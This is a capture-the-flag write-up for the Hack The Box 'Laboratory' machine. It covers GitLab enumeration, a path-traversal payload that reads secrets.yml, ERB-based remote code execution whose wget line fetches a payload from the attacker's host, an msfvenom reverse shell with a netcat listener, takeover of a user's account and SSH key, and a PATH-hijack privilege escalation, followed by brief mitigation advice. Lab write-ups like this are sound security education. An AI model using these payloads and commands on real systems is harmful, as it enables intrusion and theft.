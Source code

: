 # Laboratory



## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**User**](#User)
  - [**Root**](#Root)

- [**Mitigation**](#Mitigation)



## Box

[![](img/box_info.png)]()



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)





## Enumeration

First, i start nmap scanning:

```bash
nmap -sC -sV -oN nmap_res 10.10.10.216
```



###### Active services:

- **SSH**

- **HTTP**
- **HTTPS**



![nmap_scan](img/nmap_scan.png)





First i try **HTTPS** protocol and i get this:

![](img/url_error_message.png)



So, i have to edit my `/etc/hosts` file to add the corresponding **DNS Server names** to the target ip:

`10.10.10.216	laboratory.htb git.laboratory.htb`

Now, i can access to the web page. After a few minutes on the main page, i get nothing so i decide to go in the `git.laboratory.htb`. I try to create an account to access to the git main page. I have to use the domain name of the website for the mail:![](img/git_register.png)



I explored the git page and i found a project with the user Dexter:![](img/git_dexter.png)



Here, i think i need to be able to connect to his account to manage the website. So, first, i try to find the deployed git version and i found it in the help page:

![](img/git_version.png)

Now, i just need to search an exploit which is available on this version. Finally, i found an interesting post which say that we can make a **RCE** with this version of gitlab:

![](img/git_rce_post.png)



## Exploitation

To use this exploit, i have to get the secret_key_base of the server gitlab and add it to my gitlab-rails config:

![](img/exploit_step.png)

I tried this description for the issue: `![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

When i moved the issue in my second project, i get the secrets.yml file:

![](img/secret_key_base.png)

I downloaded it and cat the file to copy the secret_key_base on my own secrets.yml :

![](img/secret_key_base_2.png)



I installed gitlab with the correct version and try this steps to trigger a **RCE**.

First, i launched gitlab rails console with the following command: `sudo gitlab-rails console `. 

In the same time, i create a SimpleHTTPServer with python: `python -m SimpleHTTPServer 8888`.

Before writing this commands, i create a file `test`and i edit the `erb` variable with ```erb = ERB.new("<%= `cd /tmp/ &&  wget http://10.10.14.121:8888/test` %>")```

I send this commands to the gitlab console and generated the corresponding cookie. Finally, i send request using curl with the cookie and i received the wget answer:

![](img/rce_test_file.png)



So, the **RCE** worked, at this point, i tried to get a reverse shell.

I generate an elf file using msfvenom to execute it remotely: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.121 LPORT=4444 -f elf >reverse_shell.elf`

In the same time, i use netcat to listen the specified port: `nc -lvp 4444`

I re-edit the `erb` variable with this command: ```erb = ERB.new("<%=`cd /tmp/ &&  wget http://10.10.14.121:8888/reverse_shell.elf && chmod +x reverse_shell.elf && ./reverse_shell.elf` %>"```

After that, i got the reverse shell: 

![](img/rce_reverse_shell_edit.png)



## Post-exploitation

### User

I know we are in the gitlab server which handles the website. I also know the username name of the user we got in the gitlab website: Dexter.

So, after a few research, i learned that i can easily edit the user password using `gitlab-rails console`:

<img src="img/edit_dexter_password.png" style="zoom:100%;" />



I tried to connect to Dexter account with the password i edited and it worked. In his account, i retrieve the private key for the ssh connection:

![](img/private_key.png)



I dowloaded this file and used it for the ssh connection, and it worked again:

![](img/user_pwned.png)



### Root

First, i launched a linPEAS to enumerate possible privesc. After a few looks, i found an unusual **SUID** binary file:

![](img/docker-security.png)

I tried to read readable ASCII character using `strings` command in my kali and found interesting lines, especially, the lines with chmod:

![](img/docker-security_chmod.png)



So, here we can conclude that chmod command is launched without the absolute path from the `docker-security` script with the root privilege because of the **SUID** permission.

I decided to create a custom script named `chmod` and add the temporarily directory to the `PATH` to execute my script instead of `/bin/chmod`. I just used `/bin/bash -i` to launch an interactive bash shell:

![](img/chmod_script.png)



Finally, i make my file executable, execute `docker-security` and i got bash with root privilege:

![](img/root_pwned.png)



## Mitigation

To avoid vulnerabilities in this box, it is recommended to:

- Upgrade gitlab to the last version
- Do not be tempted to roll your own **SUID** utilities unless you really have to
- Use absolute path of command used in script
- Use `getconf PATH` in the start of the script to avoid unknown script execution 
